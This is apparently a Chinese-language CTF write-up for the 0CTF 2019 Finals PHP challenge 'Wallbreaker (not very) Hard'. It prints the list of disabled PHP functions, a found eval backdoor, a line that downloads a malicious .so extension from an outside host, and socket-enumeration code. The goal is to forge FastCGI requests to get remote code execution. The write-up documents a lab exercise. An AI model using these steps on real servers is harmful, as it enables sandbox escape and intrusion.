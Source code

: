 # Wallbreaker (not very) Hard

### [English Version](https://github.com/w181496/CTF/blob/master/0ctf2019_final/Wallbreaker%20(not%20very)%20Hard/README_en.md)

## 題目分析

- 這題基本上跟 0CTF 2019 初賽那題環境一樣:
    - PHP-FPM
    - PHP 7.2
    - 更嚴格的 `disable_functions`
        - `pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,putenv,proc_open,passthru,symlink,link,syslog,imap_open,dl,system,mb_send_mail,mail,error_log`
        - 這次不能再用`putenv`了:p
    - `open_basedir: /var/www/html:/tmp`

![](https://github.com/w181496/CTF/blob/master/0ctf2019_final/Wallbreaker%20(not%20very)%20Hard/phpinfo.png)

- 首先這題告訴我們有個backdoor，但要自己去找
- 踹了一下發現有`.index.php.swp`
- backdoor key: `eval($_POST["anfkBJbfqkfqasd"]);`
- 後面就開始繞`disable_functions`和`open_basedir`

## Exploit

- 在初賽時，我偽造 fastcgi 去繞過 `open_basedir` (把設定寫掉)
- 但其實我後來發現可以透過 extension 直接 RCE
- 只要把 `PHP_ADMIN_VALUE` 中的 `extension_dir` 和 `extension` 寫掉就可以載入任意 extension
- 所以我們第一步就是上傳能執行 Command 的 extension:

```php
file_put_contents("/tmp/bad.so", file_get_contents("http://kaibro.tw/bad.so"));
```

- 在偽造 FastCGI Protocol 之前，我們必須先找出他的 UNIX Socket path (如果是走 tcp，就要找到 port):

```php
$file_list = array();
$it = new DirectoryIterator("glob:///v??/run/php/*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
$it = new DirectoryIterator("glob:///v??/run/php/.*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}<br/>";
}
```

=> `/var/run/php/U_wi11_nev3r_kn0w.sock`

- 接著開始偽造 FastCGI Protocol 寫掉設定，這邊可以參考 [payload.php](https://github.com/w181496/FuckFastcgi/blob/master/index.php)
    - 把裡面對應的設定改掉就行

![](https://github.com/w181496/CTF/blob/master/0ctf2019_final/Wallbreaker%20(not%20very)%20Hard/getflag.png)

- RCE Get!
- `/readflag` => `flag{PHP-FPM is awesome and I think the best pratice is chroot your PHP}`

